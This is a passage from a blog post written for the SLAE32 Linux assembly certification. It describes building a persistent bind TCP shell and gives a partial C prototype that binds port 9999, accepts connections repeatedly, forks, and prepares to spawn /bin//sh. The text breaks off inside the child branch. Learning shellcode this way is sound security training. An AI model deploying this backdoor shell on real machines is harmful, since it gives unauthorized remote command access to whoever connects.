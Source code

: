 ```yaml
---
layout: page
title: SLAE32 Assignment 1
comments: true
---
```


<div class="well" markdown="1">
<h2>SLAE32 Assignment 1: Bind TCP Shell</h2>

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE-1009

The first assignment requires the implementation of a bind tcp shell. Now I know that typically one of the goals of shellcode is to make it short. However, since this is my first major foray into shellcode, I wanted to learn the most I could and so I opted to try to make the shellcode more full featured instead of small and compact. In thinking about bind shells, one of the main annoying things is that if the shell dies for whatever reason, you have to reexploit the software, as typically bind shells accept only one connection. So for my bind shell, I wanted to make it persist and accept connections repeatedly. As such, I needed to add some multiprocess functionality to the shellcode.

The first step was to write the general code in C to see how the system calls will be laid out. The following is the code I came up with.

```c
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <string.h>

int main(){
  char *execargs[] = {"/bin//sh", 0};
  int port = 9999;
  struct sockaddr_in server_sa;
  int sockaddr_size = sizeof(struct sockaddr_in);

  // clear it out
  memset(&server_sa, 0, sizeof(struct sockaddr_in));

  // setup the socket information
  server_sa.sin_family=AF_INET;
  server_sa.sin_port = htons(port);
  server_sa.sin_addr.s_addr = 0x00000000; //INADDR_ANY

  // create the socket
  int serversock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);

  // bind the socket to the address and port
  bind(serversock, (struct sockaddr *)&server_sa, sockaddr_size);

  // listed for incoming connections
  listen(serversock, 0);

  while(1){
    // accept a new connection
    struct sockaddr_in client_sa;
    int clientsock = accept(serversock, (struct sockaddr *) &client_sa, &sockaddr_size);

    int child = fork();
    if (!child){
        // this is the child
```